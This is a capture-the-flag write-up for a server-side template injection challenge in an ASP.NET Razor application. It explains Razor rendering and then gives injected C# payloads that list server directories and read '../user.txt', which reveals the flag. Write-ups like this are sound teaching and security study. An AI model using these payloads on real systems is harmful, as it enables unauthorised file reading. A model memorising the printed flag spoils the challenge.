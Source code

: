 # Writeup

## Step 1 – Initial Test

Attempted to inject JavaScript code into different text boxes.

## Step 2 – Discovery

From the error messages after JavaScript injection, identified that the application uses the Razor template engine (ASP.NET).

A template engine is a system that takes a template (an HTML page with placeholders, logic, or variables) and combines it with data on the server-side to produce the final HTML that gets sent to the client’s browser.

For example:

```html
<p>Hello, @username!</p>
```

If `username = "Alice"`, the Razor engine generates:

```html
<p>Hello, Alice!</p>
```

The browser does not *request a template* directly:
It makes a standard **HTTP request** (GET or POST) to an application URL (`/profile`, `/dashboard`, `/print?id=123`, etc.).

This request can contain:
- Query string parameters (`?id=123`)
- POST parameters (from a form, e.g. `username=Alice&password=...`)
- Cookies / session ID (to identify the logged-in user)

What happens on the server side:

- The request reaches the ASP.NET framework.
- The routing system decides which controller action (in MVC) or which Razor Page (in Razor Pages) should handle the request, based on the URL.
- The controller or page reads the data from the request (query string, form, cookies, database).
- This data becomes variables in `C#` (e.g. `ViewBag.Username = "Alice";`).
- The controller (MVC) explicitly calls return View(); or return View("CustomView");, which determines which .cshtml file will be used.
 - By convention, return View(); looks for a `.cshtml` file that matches the action name inside the corresponding `Views/ControllerName/` folder.
 - With Razor Pages, the URL maps directly to a `.cshtml` file under `Pages/`.
- The Razor engine takes the `.cshtml` template, which contains markup + placeholders (`@username`, `@DateTime.Now`, etc.).
- Razor translates the template into pure C#, compiles it, and executes it.
- The final result is static HTML with the values already replaced → returned as the HTTP response to the client.


## Step 3 – Server-Side Template Injection (SSTI)
Discovered that it was possible to inject `C#` code directly into the Razor template.

Since Razor processes templates on the server-side, any injected `C#` expression (e.g. `@(2+2)`) is evaluated by the Razor engine before the response is sent to the client.
Example:

```csharp
@(2+2)
```

is rendered by the server as:

```
4
```

This confirms a **Server-Side Template Injection (SSTI)** vulnerability: the attacker's input is executed as part of the template compilation, effectively giving code execution within the Razor context.

## Step 4 – Directory Enumeration
Listed files in the current working directory with:

```csharp
@(System.String.Join(" | ", System.IO.Directory.GetFiles(".")))
```


## Step 5 – Exploring Parent Directory

Discovered the `user.txt` file in the parent directory.

## Step 6 – Reading the Flag
Retrieved the flag using:

```C#
@(System.IO.File.ReadAllText("../user.txt"))
```

## Flag
```
brunner{m0R3_l1K3_r3c1P3_1NJ3ct1On!}
```